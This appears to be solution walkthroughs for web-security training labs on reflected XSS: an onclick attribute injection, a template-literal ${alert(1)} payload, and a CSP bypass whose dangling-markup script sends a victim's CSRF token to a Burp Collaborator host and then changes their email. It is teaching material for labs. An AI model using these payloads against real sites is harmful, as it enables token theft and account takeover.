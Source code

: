 1.  Post a comment with a random alphanumeric string in the "Website" input, then use Burp Suite to intercept the request and send it to Burp Repeater.
2.  Make a second request in the browser to view the post and use Burp Suite to intercept the request and send it to Burp Repeater.
3.  Observe that the random string in the second Repeater tab has been reflected inside an `onclick` event handler attribute.
4.  Repeat the process again but this time modify your input to inject a JavaScript URL that calls `alert`, using the following payload: `http://foo?&apos;-alert(1)-&apos;`
5.  Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in your browser. Clicking the name above your comment should trigger an alert.

### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

1.  Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2.  Observe that the random string has been reflected inside a JavaScript template string.
3.  Replace your input with the following payload to execute JavaScript inside the template string: `${alert(1)}`
4.  Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in your browser. When you load the page it should trigger an alert.

### Lab: Reflected XSS protected by CSP, with dangling markup attack

1.  Log in to the lab using the account provided above.
2.  Examine the "Update email" function. Observe that there is an XSS vulnerability in the `email` parameter.
3.  Go to the Burp menu and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
4.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
5.  Back in the lab, go to the exploit server and add the following code, replacing `your-lab-id` with your lab ID, and replacing `your-collaborator-id` with the payload that you just copied from Burp Collaborator.  
    `<script>  
    location='https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?';  
    </script>`
6.  Click "Store" and then "Deliver exploit to victim". If the target user visits the website containing this malicious script while they are still logged in to the lab website, their browser will send a request containing their [CSRF token](https://portswigger.net/web-security/csrf/tokens) to your malicious website. You can then steal this token using the Burp Collaborator client.
7.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the "Request" tab, and copy the user's CSRF token.
8.  With Burp's intercept feature switched on, go back to the update email function of the lab and submit a request to change the email to any random address.
9.  In Burp, go to the intercepted request and change the value of the email parameter to `hacker@evil-user.net`.
10.  Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.
11.  Click "Options" and make sure that the "Include auto-submit script" is activated.
12.  Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
13.  Drop the request and switch off the intercept feature.
14.  Go back to the exploit server and paste the CSRF HTML into the body. You can overwrite the script that we entered earlier.
15.  Click "Store" and "Deliver exploit to victim". The user's email will be changed to `hacker@evil-user.net`.

---